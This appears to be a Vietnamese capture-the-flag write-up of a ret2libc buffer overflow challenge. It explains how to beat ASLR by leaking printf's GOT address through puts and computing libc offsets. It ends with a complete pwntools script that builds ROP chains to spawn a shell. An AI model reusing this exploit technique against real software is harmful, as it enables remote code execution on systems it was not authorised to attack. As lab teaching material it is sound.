

Chạy thử  mình thấy chương trình yêu cầu nhập vào 1 xâu và mục tiêu là thực thi được shell:


Theo kinh nghiệm mình dùng lệnh `objdump` thì thấy có hàm `main` và `vuln`, thử xem 2 hàm này có gì:


Không có gì phức tạp cả, nhưng bài này sẽ không đơn giản như vậy vì ASLR:


ASLR sẽ randomize địa chỉ mỗi lần chạy chương trình nhưng 3 bit cuối được giữ nguyên, vì vậy ý tưởng sẽ là leak địa chỉ của hàm sẵn có trong chương trình, tra phiên bản libc từ đó tính ra địa chỉ thật của `system()` và `/bin/sh`. Mình sẽ dùng hàm `puts()` để in địa chỉ "real time" của `printf()`, suy ra địa chỉ của libc, từ đó tìm ra địa chỉ của hàm `system()` và xâu `/bin/sh`.


Địa chỉ `0x601020` là địa chỉ của vùng nhớ chứa địa chỉ "real time" của hàm `printf()`, vì vậy lấy địa chỉ này làm tham số cho hàm `puts()` thì sẽ in ra được địa chỉ thật trong libc của hàm `printf()` tại mỗi lần chạy.
Kiến trúc x64 truyền tham số bằng thanh ghi `rdi`, vì vậy mình sẽ dùng `ropper` để tìm gadget `pop rdi; ret`



Việc còn lại là tìm vị trí của return address:


Return address bị ghi đè bởi 8 byte `0x6e`, vậy cần truyền vào 104 byte rác. Dù địa chỉ các hàm bị thay đổi ngẫu nhiên tuy nhiên khoảng cách giữa chúng lại không đổi, do vậy từ địa chỉ `printf()` được leak ra ta sẽ tính được base address của libc => dễ dàng suy ra địa chỉ của `system()` và `/bin/sh`.


Script:
```py
from pwn import *

# 1 số địa chỉ cần thiết
p = process('./ret2libc')
padding = b"A"*104
pop_rdi = 0x00000000004006a3
print_at_got = 0x601020
puts_at_plt = 0x400480
main = 0x0000000000400610

# tạo buffer truyền vào chương trình
buf = padding
buf += p64(pop_rdi)
buf += p64(print_at_got)
buf += p64(puts_at_plt)
buf += p64(main)

# gửi buffer
p.sendline(buf)
p.recvuntil(b"No shell for you :(\n")

recv = p.recvline()
print(recv)

# in ra địa chỉ hàm printf()
leak = u64(recv.strip().ljust(8, b"\x00"))
log.info(f"Leaked printf address -> {hex(leak)}")

# tính base address của libc
offset_printf = 0x52b30
libc_base = leak - offset_printf
log.info(f"libc base address -> {hex(libc_base)}")

# tính địa chỉ hàm system()
offset_system = 0x4c920
libc_system = libc_base + offset_system
log.info(f"system address -> {hex(libc_system)}")

# tính địa chỉ xâu "/bin/sh"
offset_binsh = 0x19604f
libc_binsh = libc_base + offset_binsh
log.info(f"/bin/sh address -> {hex(libc_binsh)}")

# truyền chuỗi exploit
ret = 0x000000000040060f
exploit = padding
exploit += p64(pop_rdi)
exploit += p64(libc_binsh)
exploit += p64(ret)
exploit += p64(libc_system)

# gửi chuỗi exploit
p.sendline(exploit)

p.interactive() 
```
Kết quả:

